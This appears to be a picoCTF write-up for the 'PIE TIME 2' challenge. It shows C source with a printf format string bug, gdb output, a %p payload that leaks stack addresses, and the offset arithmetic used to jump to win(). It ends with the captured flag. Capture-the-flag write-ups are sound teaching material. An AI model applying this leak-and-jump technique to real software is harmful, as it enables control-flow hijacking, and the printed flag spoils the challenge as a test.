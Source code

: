 ## PIE TIME 2

This was a fun challenge, as it's basically the only one we all solved together. It wasn't very hard, we just overcomplicated it a lot at first.

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```
Taking a look at the source code, it's clear we need to execute the `win()` function to retrieve the flag.

First, we tried using `gdb` to find the address of `win()` in the program, and using that to call it.

```bash
(gdb) print win
$1 = {<text variable, no debug info>} 0x136a <win>
(gdb) print main
$2 = {<text variable, no debug info>} 0x1400 <main>
```

We tried calling `0x136a` directly, but it didn't work - this was to be expected, as the address is different every time we run the program due to address space layout randomization (ASLR).

```bash
(gdb) b call_functions
Breakpoint 1 at 0x12cf
(gdb) run
Starting program: /home/allan/Downloads/vuln
Downloading separate debug info for system-supplied DSO at 0x7ffff7fc3000
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Breakpoint 1, 0x00005555555552cf in call_functions ()
(gdb) print win
$3 = {<text variable, no debug info>} 0x55555555536a <win>
(gdb) print main
$4 = {<text variable, no debug info>} 0x555555555400 <main>
(gdb) exit
```

While this allowed us to see that the two addresses were still the same distance apart, we couldn't actually use `gdb` when the program was running on the server - all we could do is use the two user inputs, which were *"Enter your name:"* and *" enter the address to jump to, ex => 0x12345: "*.

```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

The `call_functions()` function has a format string vulnerability in `printf(buffer)` where the user's input is used as a format string. This allows us to print the addresses of the stack.

```
Enter your name: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

0x5e784df232a1 (nil) 0x5e784df232d0 0x7fffcb20b240 0x7c 0x7fffcb312228 0x7f72331566a0 0x70252e70252e7025 0x252e70252e70252e 0x2e70252e70252e70 0x70252e70252e7025 0x252e70252e70252e 0xa70252e70252e70 0x5e7814675400 0x7fffcb20b2a0 0x5e78146751c0
```

With a bit of trial and error, we subtracted `0x96` from any address in the same address space (`0x5...`). One of these was the address of `main()`, so subtracting the difference between `main()` and `win()` gave us the address of `win()`.

Using `0x5917f9d93400 - 0x96 = 0x5917f9d9336a`: 

```
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

0x5918195652a1 (nil) 0x5918195652d0 0x7ffeb85643c0 0x7c 0x7ffeb856f228 0x77e0087e16a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070252070 0x5917f9d93400 0x7ffeb8564420 0x5917f9d931c0

 enter the address to jump to, ex => 0x12345: 0x5917f9d9336a

You won!
picoCTF{p13_5h0u1dn'7_134k_e7fc8501}
```